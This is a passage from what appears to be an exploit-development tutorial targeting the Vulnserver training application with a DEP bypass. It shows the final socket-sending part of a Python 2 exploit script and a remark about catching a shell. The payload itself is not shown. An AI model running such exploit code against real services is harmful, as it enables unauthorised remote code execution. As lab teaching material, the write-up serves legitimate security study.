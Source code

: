 ```python

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()


```

Let's restart the application outside of the debugger, and run the exploit to see if we catch a shell:

![screenshot](/assets/images/vulnserverdep/final.PNG)
